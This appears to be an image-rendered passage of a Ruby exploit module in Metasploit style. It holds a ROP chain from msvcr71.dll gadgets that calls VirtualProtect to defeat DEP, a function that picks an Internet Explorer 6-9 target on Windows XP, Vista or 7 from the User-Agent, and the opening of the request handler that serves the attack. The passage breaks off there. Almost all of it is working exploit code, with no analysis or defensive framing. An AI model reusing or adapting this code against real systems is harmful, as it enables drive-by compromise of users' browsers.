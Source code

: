      # ROP chain (msvcr71.dll) generated by mona.py - See corelan.be
     def get_rop_chain
      rop = [
       0x7c37653d,  # POP EAX # POP EDI # POP ESI # POP EBX # POP EBP # RETN
       0x00001000,  # (dwSize)
       0x7c347f98,  # RETN (ROP NOP)
       0x7c3415a2,  # JMP [EAX]
       0xffffffff,
       0x7c376402,  # skip 4 bytes
       0x7c345255,  # INC EBX # FPATAN # RETN
       0x7c352174,  # ADD EBX,EAX # XOR EAX,EAX # INC EAX # RETN
       0x7c344f87,  # POP EDX # RETN
       0x00000040,  # flNewProtect
       0x7c34d201,  # POP ECX # RETN
       0x7c38b001,  # &Writable location
       0x7c347f97,  # POP EAX # RETN
       0x7c37a151,  # ptr to &VirtualProtect() - 0x0EF
       0x7c378c81,  # PUSHAD # ADD AL,0EF # RETN
       0x7c345c30,  # ptr to 'push esp #  ret '
      ].pack("V*")

      return rop
     end

     def get_target(agent)
      #If the user is already specified by the user, we'll just use that
      return target if target.name != 'Automatic'

      if agent =~ /NT 5\.1/ and agent =~ /MSIE 6/
       return targets[1]  #IE 6 on Windows XP SP3
      elsif agent =~ /NT 5\.1/ and agent =~ /MSIE 7/
       return targets[2]  #IE 7 on Windows XP SP3
      elsif agent =~ /NT 6\.0/ and agent =~ /MSIE 7/
       return targets[2]  #IE 7 on Windows Vista SP2
      elsif agent =~ /NT 5\.1/ and agent =~ /MSIE 8/
       return targets[3]  #IE 8 on Windows XP SP3
      elsif agent =~ /NT 6\.[01]/ and agent =~ /MSIE 8/
       return targets[3]  #IE 8 on Windows 7 SP1/Vista SP2
      elsif agent =~ /NT 6\.1/ and agent =~ /MSIE 9/
       return targets[4]  #IE 9 on Windows 7 SP1
      else
       return nil
      end
     end

     def on_request_uri(cli, request)

      agent = request.headers['User-Agent']
      print_status("User-agent: #{agent}")

      my_target = get_target(agent)
